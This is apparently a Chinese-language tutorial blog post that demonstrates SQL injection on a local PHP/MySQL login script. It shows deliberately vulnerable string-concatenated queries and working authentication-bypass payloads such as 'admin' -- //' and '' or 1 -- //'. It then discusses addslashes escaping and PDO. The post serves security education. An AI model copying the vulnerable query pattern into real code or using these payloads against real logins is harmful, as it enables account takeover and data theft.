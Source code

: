 ```yaml
---
title: SQL注入
date: 2018-02-26 15:21:50
tags:
---
```


大家应该都听说过SQL注入吧，但是，网络上的例子貌似都是一些**代码片段**，如果一个新手想要自己尝试一下SQL注入来直观的感受一下SQL注入的危害，显得很无助。我刚学习这方面知识的时候也苦苦找不到这样的代码。最近在知乎上看到很多人都提关于SQL注入的问题，于是，打算写一篇这样的博客。

直接上代码：

先创建数据表：

```mysql
CREATE TABLE IF NOT EXISTS `users`(
   `id` INT UNSIGNED AUTO_INCREMENT,
   `username` varchar(200) NOT NULL,
   `password` CHAR(32) NOT NULL,
   PRIMARY KEY ( `id` )
)ENGINE = InnoDB DEFAULT CHARSET = utf8;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', MD5('admin')),
(2, 'huanghantao', MD5('huanghantao'));
```

下面是结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/1.png)

（密码是结果md5函数加密的）

然后是PHP脚本处理登录逻辑的代码：

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test";
 
// 创建连接
$conn = new mysqli($servername, $username, $password, $dbname);
 
// 检测连接
if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}

$username = "admin";
$password = "admin";
$sql = "SELECT * FROM users where username = '" . $username . "' AND password = '" . md5($password) . "'";
$result_obj = $conn->query($sql);

if ($result_obj->num_rows) {
	while($row = $result_obj->fetch_assoc()) {
		var_dump($row);
    }
}
```

OK，程序大概就是这样了，

现在我们执行上面这段PHP脚本：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/2.png)

嗯，符合我们的预期。（因为用户名和密码都正确，所以打印出了用户的结果）

好的，接下来开始我们的表演：

我们修改一下PHP脚本的username变量：

```php
$username = "admin' --";
$password = "密码随便写"; // 没错，你写中文也行
```

完整代码如下：

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test";
 
// 创建连接
$conn = new mysqli($servername, $username, $password, $dbname);
 
// 检测连接
if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}

$username = "admin' --";
$password = "代码随便写";
$sql = "SELECT * FROM users where username = '" . $username . "' AND password = '" . md5($password) . "'";
$result_obj = $conn->query($sql);

if ($result_obj->num_rows) {
	while($row = $result_obj->fetch_assoc()) {
		var_dump($row);
    }
}
```

我们执行代码：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/3.png)

说的是`$result_obj`变量不是一个对象，所以没有属性。好的，我们打印一下`$result_obj`看看它究竟是什么：

```php
var_dump($result_obj);
```

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/4.png)

原来返回的是一个boolean类型的变量。说明我们的SQL语句没有执行成功。这就是很坑的一个地方了，网络上的文章大多数是草草的告诉我们，在表单填写类似这样的东西就可以了：

```
admin' --
```

即加个单引号 `'`，加两个 `-`。实际上，或许你得再加点东西。

我们修改下代码：

```php
$username = "admin' -- // ";
$password = "代码随便写";
```

也就是说再加两个`/`。

好的，我们执行一下代码：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/5.png)

怎么样，就算我们不知道密码，只要我们知道这个用户的用户名，就可以登录到这个用户的页面对吧。

好的，接下来，我们再试试，即使没有用户名和密码，我们也可以得到所有用户的用户名和密码：

```php
$username = "' or 1 -- // ";
$password = "代码随便写";
```

执行后的结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/6.png)

很可怕对吧。

至于这两段代码中的：

```
admin' --
和
' or 1 --
```

什么意思，网上的文章已经讲烂了，就不多说了。

通过什么的操作，我们可以发现，那个单引号`'`特别捣蛋对吧，所以，我们修改下代码，对单引号进行转义：

```php
$username = "' or 1 -- // ";
$username = addslashes($username);
$password = "代码随便写";
```

执行后的结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/7.png)

可以看到，并没有打印出用户信息，所以这个函数阻挡了此次攻击。原因如下：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/8.png)

`or`前面的单引号被转义了。

但是，并不建议通过`addslashes`对单引号转义的方式来阻挡这种类型的SQL注入。因为**addslashes对有些特殊字符后跟上'（单引号）并不会加把这个'变成/'**。

这也是为什么很多人建议使用PDO来对数据库进行操作的原因了。

好的，文章到这里结束了，希望对大家有所帮助。文中的代码都可以复制后直接使用，希望可以减少大家踩坑的时间。

happy ending…...





